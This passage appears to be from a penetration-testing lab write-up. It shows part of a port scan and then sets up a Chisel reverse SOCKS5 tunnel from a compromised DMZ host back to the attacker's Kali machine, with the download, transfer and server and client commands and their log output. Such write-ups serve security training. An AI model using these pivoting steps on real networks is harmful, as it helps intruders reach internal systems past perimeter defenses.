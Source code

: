```
3389/tcp  open  ms-wbt-server
5985/tcp  open  unknown
9389/tcp  open  unknown
49668/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49680/tcp open  unknown
49698/tcp open  unknown
49727/tcp open  unknown
```

### SOCKS5 Tunneling with Chisel

```
┌──(nabla㉿kali)-[~]
└─$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz && gunzip chisel* && mv chisel* chisel && chmod u+x chisel
```

```
┌──(nabla㉿kali)-[~]
└─$ scp chisel jbetty@10.129.31.247:~/
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo chisel server --reverse -v -p 1234 --socks5

2025/07/09 02:49:20 server: Reverse tunnelling enabled
2025/07/09 02:49:20 server: Fingerprint +7Ht1kSGkmCSxjfg3PibJIOjZ5gCwPUEgaZ6Qi4UQTI=
2025/07/09 02:49:20 server: Listening on http://0.0.0.0:1234

[CONTINUE]
```

```
jbetty@DMZ01:~$ ./chisel client -v 10.10.15.60:1234 R:socks &

2025/07/09 07:52:00 client: Connecting to ws://10.10.15.60:1234
2025/07/09 07:52:00 client: Handshaking...
2025/07/09 07:52:00 client: Sending config
2025/07/09 07:52:00 client: Connected (Latency 7.190364ms)
2025/07/09 07:52:00 client: tun: SSH connected
```

```
[CONTINUE]

2025/07/09 02:50:27 server: session#1: Handshaking with 10.129.31.247:47636...
2025/07/09 02:50:27 server: session#1: Verifying configuration
2025/07/09 02:50:27 server: session#1: tun: Created (SOCKS enabled)
2025/07/09 02:50:27 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
2025/07/09 02:50:27 server: session#1: tun: Bound proxies
2025/07/09 02:50:27 server: session#1: tun: SSH connected
```
